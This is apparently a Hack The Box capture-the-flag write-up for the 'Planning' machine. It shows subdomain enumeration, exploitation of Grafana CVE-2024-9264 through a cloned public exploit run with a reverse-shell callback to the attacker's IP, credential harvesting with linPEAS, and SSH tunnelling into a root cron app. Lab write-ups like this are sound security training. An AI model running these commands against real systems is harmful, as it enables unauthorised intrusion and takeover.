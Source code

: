 # Planning Machine Writeup

The nmap scan gives us two open ports; SSH (Port 22) and nginx web server (Port 80).
nmap -sCV -T4 10.10.11.68
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image002.png)

Upon enumeration of the directories on the web server, nothing of significance comes up.
gobuster dir -u http://planning.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --timeout 20s -x html,php
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image004.png)

So, ffuf is used to look for any subdomains the web page might have, and it comes up with Grafana.planning.htb.
ffuf -w ../../seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fc 301 -t 100
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image005.png)
 
After discovering the subdomain grafana, it is appended to the hosts file, so we’re able to access it. 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image007.png)

Going into the webpage, we see it runs V11.0.0 which is vulnerable to RCE (CVE-2024-9264).
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image009.png)
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image011.png)
 
We then use an exploit found on github by z3k0sec, which allows us to RCE into the system using reverse shell.

Git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image0013.png)

The script is then executed and a listener is set up.

Note: To run the script, you will have to install the requests module through pip (pip install requests), in a python virtual environment.

python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.131 --reverse-port 1234

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image015.png)
  
Upon gaining access to the system, we are root but this user doesn’t contain either of the flags, so linPEAS is ran to look for any sensitive information.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image017.png)

Upon running linPEAS, the password for the user ‘enzo’ is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image019.png)

Able to SSH into enzo, the user flag is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image021.png)

linPEAS is ran again, this time in enzo’s user to look for any sensitive files. After which we see some database files.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image023.png)

Exploring the crontab.db, we find a password for the root user. Looking for active connections, we see a webserver being hosted at port 8000.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image0025.png)

Using SSH tunnelling we host it in our own machine, at port 8001. It requires a username and password, available from the crontab.db database.

ssh -L 8001:localhost:8000 enzo@10.10.11.68

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image027.png)

The website functions as a cronjobs simulator, executing tasks at a certain time as root. From here we can privilege escalate the enzo’s user as sudo, gaining root privileges.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image029.png)

After obtaining privileges we are able to obtain the root flag.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image031.png)
